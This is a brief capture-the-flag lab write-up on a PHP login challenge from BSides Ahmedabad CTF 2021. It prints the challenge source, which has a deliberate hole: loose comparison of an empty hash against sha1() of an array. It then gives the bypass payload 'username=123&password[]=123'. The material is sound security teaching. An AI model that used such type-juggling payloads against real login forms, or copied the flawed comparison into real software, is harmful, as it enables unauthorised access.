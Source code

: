 # Simple Web 0x19(Lab - PHP Login)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8081

## Background

## Source code
```php=
<?php
// BSides Ahmedabad CTF 2021: entrance

include 'flag.php';
$users = array(
    "admin" => "ed2b7b57b3b5be3e8d4246c69e4b513608ffb352",
    "guest" => "35675e68f4b5af7b995d9205ad0fc43842f16450"
);

function lookup($username) {
    global $users;
    return array_key_exists($username, $users) ? $users[$username] : "";
}

if (!empty($_POST['username']) && !empty($_POST['password'])) {
    $sha1pass = lookup($_POST['username']);
    if ($sha1pass == sha1($_POST['password'])) {
        if ($_POST['username'] !== 'guest') echo $FLAG;
        else echo 'Welcome guest!';
    } else {
        echo 'Login Failed!';
    }
} else {
    echo "You can login with guest:guest";
}
echo "<br>\n";
highlight_file(__file__);
?>

```
## Exploit
Must change `GET` method to `POST` method and add `Content-Type: application/x-www-form-urlencoded` in header

<font color="FF0000">**通靈**</font>
Payload: `username=123&password[]=123`
![](https://i.imgur.com/QGvpQnr.png)

## Reference
[bsides-ahmedabad-ctf-2021-writeups](https://blog.maple3142.net/2021/11/07/bsides-ahmedabad-ctf-2021-writeups/#entrance)